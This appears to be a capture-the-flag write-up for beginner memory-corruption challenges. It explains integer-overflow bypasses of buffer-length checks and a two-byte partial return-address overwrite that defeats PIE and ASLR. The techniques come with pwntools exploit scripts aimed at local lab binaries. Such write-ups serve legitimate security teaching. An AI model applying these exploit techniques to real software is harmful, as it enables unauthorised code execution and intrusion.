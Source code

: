 ## Challenge 4

Now theres a check that we do not overflow the buffer size. However, there's an integer overflow vuln within the comparison. \
Hence, we can set the buffer length to huge `0xffffffff`, yet interpret as being -1 and pass the check:

```python
from pwn import *
import os, sys
import struct

p = process("/challenge/babymem_level4.0")

buf = b'A' * 72 + struct.pack('<Q', 0x40203f)
p.sendline('4294967295')
p.send(buf)

p.interactive()
```

## Challenge 5

Theres integer overflow vuln with the calculation of `record_num * record_size`, hence we want to wrap around this value.

```python
from pwn import *
import os, sys
import struct

p = process("/challenge/babymem_level5.0")

buf = b'A' * 72 + struct.pack('<Q', 0x402471)
p.sendline('2')
p.sendline('2147483648')
p.send(buf)

p.interactive()
```

## Challenge 6

Now the goal method have a check we have to pass. \
In order to pass this, just jump to address after the check is performed. 

## Challenge 7

Now its a PIE binary with ASLR, and we have no leak primitive. \
The trick is to overwrite only 2 LSBs. 

```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/babymem_level7.0'
elf = ELF(BINARY)
addr_main = elf.symbols['main']
addr_win = elf.symbols['win_authed']

p = process(BINARY)
buf = b'A' * 56 + struct.pack('<H', 0xbf68)
p.sendline(str(len(buf)))
p.send(buf)
```
